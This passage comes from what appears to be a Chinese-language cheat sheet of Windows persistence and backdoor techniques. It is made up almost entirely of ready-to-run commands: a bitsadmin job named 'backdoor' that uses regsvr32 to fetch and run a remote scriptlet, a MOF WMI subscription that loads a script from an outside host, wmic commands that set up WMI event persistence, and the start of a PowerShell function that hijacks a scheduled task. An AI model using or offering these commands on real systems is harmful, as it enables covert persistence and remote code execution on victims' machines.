 ```
HKEY_CLASSES_ROOT
```
##### 11、[bitsadmin](http://www.liuhaihua.cn/archives/357579.html) 
```
bitsadmin /create backdoor
bitsadmin /addfile backdoor %comspec% %temp%\cmd.exe
bitsadmin.exe /SetNotifyCmdLine backdoor regsvr32.exe "/u /s /i:https://host.com/calc.sct scrobj.dll"
bitsadmin /Resume backdoor
```
##### 12、[mof ](https://evi1cg.me/archives/Powershell_MOF_Backdoor.html)
```
pragma namespace("\\\\.\\root\\subscription") 
instance of __EventFilter as $EventFilter
{
EventNamespace = "Root\\Cimv2";
Name = "filtP1";
Query = "Select * From __InstanceModificationEvent "
"Where TargetInstance Isa \"Win32_LocalTime\" "
"And TargetInstance.Second = 1";
QueryLanguage = "WQL";
}; 
instance of ActiveScriptEventConsumer as $Consumer
{
Name = "consP1";
ScriptingEngine = "JScript";
ScriptText = "GetObject(\"script:https://host.com/test\")";
}; 
instance of __FilterToConsumerBinding
{
Consumer = $Consumer;
Filter = $EventFilter;
};
```
管理员执行：
```
mofcomp test.mof
```
##### 13、[wmi](https://3gstudent.github.io/3gstudent.github.io/Study-Notes-of-WMI-Persistence-using-wmic.exe/) 

每隔60秒执行一次notepad.exe
```
wmic /NAMESPACE:"\\root\subscription" PATH __EventFilter CREATE Name="BotFilter82", EventNameSpace="root\cimv2",QueryLanguage="WQL", Query="SELECT * FROM __InstanceModificationEvent WITHIN 60 WHERE TargetInstance ISA 'Win32_PerfFormattedData_PerfOS_System'"
wmic /NAMESPACE:"\\root\subscription" PATH CommandLineEventConsumer CREATE Name="BotConsumer23", ExecutablePath="C:\Windows\System32\notepad.exe",CommandLineTemplate="C:\Windows\System32\notepad.exe"
wmic /NAMESPACE:"\\root\subscription" PATH __FilterToConsumerBinding CREATE Filter="__EventFilter.Name=\"BotFilter82\"", Consumer="CommandLineEventConsumer.Name=\"BotConsumer23\""
```
##### 14、[Userland Persistence With Scheduled Tasks](https://3gstudent.github.io/3gstudent.github.io/Userland-registry-hijacking/)  
劫持计划任务UserTask，在系统启动时加载dll
```
function Invoke-ScheduledTaskComHandlerUserTask
{
[CmdletBinding(SupportsShouldProcess = $True, ConfirmImpact = 'Medium')]
Param (
[Parameter(Mandatory = $True)]
[ValidateNotNullOrEmpty()]
```